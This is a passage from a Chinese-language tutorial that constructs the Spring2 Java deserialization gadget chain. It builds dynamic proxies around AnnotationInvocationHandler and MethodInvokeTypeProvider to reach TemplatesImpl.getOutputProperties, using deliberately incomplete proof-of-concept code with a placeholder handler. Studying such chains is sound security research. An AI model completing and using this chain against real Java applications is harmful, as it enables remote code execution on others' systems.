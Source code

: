 然后我们继续在上边的残缺POC上加入一个代理了两个接口的动态代理：

```java
public static void main(String[] args) throws Exception {
    // 按理来说，这里的xxxxxxxxxx如果能塞进来一个TemplatesImpl对象，此时我们就能完成攻击链的构造了
    // 很不巧，newProxyInstance的第三个参数是一个必须要实现InvocationHandler接口的动态代理实现类
    // 而TemplatesImpl对象是没有实现这个接口的
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{Type.class, Templates.class}, xxxxxxxxxx);

    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时map中的Object就是我们实现了Type和Templates这两个接口的实例了
    map.put("getType", typeTemplatesProxy);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

虽然我们还不知道`xxxxxxxxxx`中的代码应该怎么构建。但即便如此，我们给`xxxxxxxxxx`随便赋一个实现了`InvocationHandler`的类就能满足`Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);`这行代码中的需求。

但是后边还有一个关键的一步，就是`ReflectionUtils.invokeMethod(method, this.provider.getType());`

我们看一下`ReflectionUtils.invokeMethod`这个方法是怎么实现的。
